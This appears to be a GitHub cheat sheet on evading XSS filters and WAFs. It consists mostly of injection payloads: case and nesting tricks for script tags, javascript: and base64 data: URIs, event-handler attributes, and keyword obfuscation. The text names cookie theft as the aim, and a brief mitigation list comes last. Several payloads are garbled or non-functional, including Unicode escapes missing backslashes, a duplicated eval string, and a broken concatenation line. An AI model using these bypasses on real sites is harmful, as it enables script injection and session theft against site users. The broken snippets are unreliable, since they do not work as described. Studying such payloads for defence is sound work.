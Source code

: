 # XSS Filter Evasion and WAF Bypassing 

  - Bypassing Blacklisting Filters
  - Bypassing Sanitization
  - Bypassing Browser Filters

## 1. Bypassing Blacklisting Filters

> Blacklisting filters are a common security measure, but they can often be bypassed with clever techniques.

### 1.A : Bypassing <script> Tag Banning

> The <script> tag is the primary method which can be used to execute client side scripting code such as JavaScript.
It was designed for this purpose, and of course, this is the first vector that most filters block.


While blocking the `<script>` tag is a common strategy, there are multiple ways to circumvent it:

-   **Filter expretion code:**
    
    PHP
    ``` 
    $str = "<script>alert(1)</script>" ; 
    $str = preg_replace('/<\w+>|<\/\w+>/' , " " , $str) ; 
    echo($str); // alert(1) so not work 
    
    ```
   **Bypassing Weak <script> Tag Banning**
-   **Case Sensitivity:**
    
    HTML
    
    ```
    <ScRiPt>alert(1);</ScRiPt>
    
    ```
    
-   **Missing Closing Tag:**
    
    HTML
    
    ```
    <ScRiPt>alert(1);
    
    ```
    
    
-   **Random String After Tag Name:**
    
    HTML
    
    ```
    <script/anytext>alert(1);</script>
    
    ```
    
    
-   **Newline After Tag Name:**
    
    HTML
    
    ```
    <script
    >alert(1);</script>
    
    ```
    
    
-   **Nested Tags:**
    
    HTML
    
    ```
    <scr<script>ipt>alert(1) </scr<script>ipt>
    
    ```
    
    
-   **NULL Byte (IE up to v9):**
    
    HTML
    
    ```
    <scr\x00ipt> alert(1) </scr/x00ipt>
    
    ```
    

    
---

### 1.B : Bypassing Using HTML Attributes And Events

Many HTML attributes can be exploited to execute JavaScript:

-   **Inline JavaScript in `href` Attribute:**
    
    HTML
    
    ```
    <a href="javascript: alert(1)">show</a>
    ```

    -   This directly executes JavaScript code when the link is clicked.
    -   An attacker could inject malicious JavaScript, like `javascript:alert(document.cookie)` to steal sensitive information.
    
    
-   **Data URI with Embedded Script:**
    
    HTML
    
    ```
    <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>
    
    ```
    
    -   The `data:` URI scheme allows embedding data directly into the URL.
    -   In this case, a base64-encoded script is embedded, which will execute when the link is clicked
    
    
-   **Inline JavaScript in `action` Attribute:**
    
    HTML
    
    ```
    <form action="javascript: alert(1)"><button>send</button></form>
    
    ```
    
    -   This directly executes JavaScript code when the form is submitted.
-   **`formaction` Attribute with JavaScript:**
    
    HTML
    
    ```
    <form id=x></form><button form="x" formaction ="javascript:alert(1)">send</button>
    
    ```
   
    -   The `formaction` attribute specifies the action to be taken when the form is submitted.
    -   Using `javascript:` here allows direct JavaScript execution.
-   **`object` Tag with JavaScript in `data` Attribute:**
    
    HTML
    
    ```
    <object data="javascript: alert(1)">
    
    ```
   
    -   The `object` tag can be used to embed various types of content.
    -   By setting the `data` attribute to a JavaScript expression, it can be executed.
    
    
-   **Data URI with Embedded Script in `object` Tag:**
    
    HTML
    
    ```
    <object data="data:text/html,<script>alert(1)</script>">
    
    ```
   
    -   Similar to the previous example, this embeds a script within a data URI.
-   **Base64-Encoded Data URI with Embedded Script in `object` Tag:**
    
    HTML
    
    ```
    <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
    
    ```
    
    -   This is a more complex version of the previous example, using base64 encoding.

-   **Event Handlers:**
    > Many HTML elements support event handler attributes that can execute JavaScript when certain events occur. Common attributes include:

       - onclick
       - onmouseover
       - onerror
       - onload
    
    HTML
    
    ```
    <img src="invalid.jpg" onerror="alert('XSS Attack!')">
    
    ```
    
    
-   **Global Attributes:**
    
    HTML
    
    ```
    <div style="background-image: url(javascript:alert('XSS'));">Hover me!</div>
    
    ```
    
    
-   **Form Attributes:**
    
    HTML
    
    ```
    <form action="javascript:alert('XSS')">
        <input type="submit" value="Submit">
    </form>
    
    ```
    
    
-   **URL Attributes:**
    
    HTML
    
    ```
    <a href="javascript:alert('XSS')">Click me!</a>
    
    ```
    
    
-   **SVG and MathML:**
    
    HTML
    
    ```
    <svg onload="alert('XSS')"></svg>
    
    ```

---

### Bypassing Keyword-Based Filters
> Other obstacles that a signature based filter may introduce are focused on preventing the executing of scripting code by blocking the use of certain keywords, for example: alert , javascript , eval , Let’s now look at some "alternatives" you may use to bypass these types of filters. 

- **Keyword-based filters can be bypassed using various techniques:**

- Filtering PHP code .      
 
    php
    ``` 
         $str = "<script>alert(1)</script>" ; 
         $str = preg_match_all('/alert/i' , $str , $array)  ;
    ```

-   **Unicode Escaping:**
    
    JavaScript
    
    ```
    <script>u0061lert(1)</script>
    <script> u0061 u006C u0065 u0072 u0074 (1)</script>
    
    ```
    
    
-   **Native Unicode Functions:**
    
    JavaScript
    
    ```
    <script>eval("\u0061lert(1)")</script>
    <script>eval("\u0061u0061\u006Cu006C\u0065u0065\u0072u0072\u0074u0074\u0028u0028\u0031u0031\u0029u0029")</script>
    
    ```
    - in summary :
    > You can try: `Unicode` , `Decimal`, `Octal, Hexadecimal`
    

### String Construction

Knowing how to construct strings is an important skill in bypassing filters.
For example, as usual, the alert keyword is blocked, but most likely "ale"+" is not detected. Let’s see some


By constructing strings in creative ways, attackers can bypass filters that look for specific keywords:

JavaScript

```
<script>alert("a"+"l"+"e"+"r"+"t"(1))</script>
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
17795081..toString(36)

```


**Mitigation Strategies**

To protect against XSS vulnerabilities, consider the following:

-   **Input Sanitization:** Always sanitize user input to remove or encode harmful characters.
-   **Output Encoding:** Encode output to prevent malicious code execution.
-   **Content Security Policy (CSP):** Implement CSP to restrict the sources of scripts.
-   **Web Application Firewalls (WAFs):** Use WAFs to filter and block malicious traffic.
-   **Regular Security Audits:** Conduct regular security assessments to identify and address vulnerabilities.

By understanding these techniques, you can better protect your web applications from XSS attacks.